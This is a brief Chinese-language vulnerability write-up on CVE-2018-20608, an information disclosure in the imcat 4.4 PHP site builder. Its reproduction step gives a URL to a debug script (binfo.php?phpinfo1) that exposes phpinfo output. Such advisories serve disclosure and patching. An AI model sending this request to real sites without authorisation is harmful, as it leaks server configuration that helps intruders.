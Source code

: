 （CVE-2018-20608）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中存在安全漏洞。远程攻击者可借助root/tools/adbug/binfo.php?phpinfo1
URI利用该漏洞获取信息。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

    http://www.0-sec.org/root/tools/adbug/binfo.php?phpinfo1

![](./resource/(CVE-2018-20608)Imcat4.4敏感信息泄露/media/rId24.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
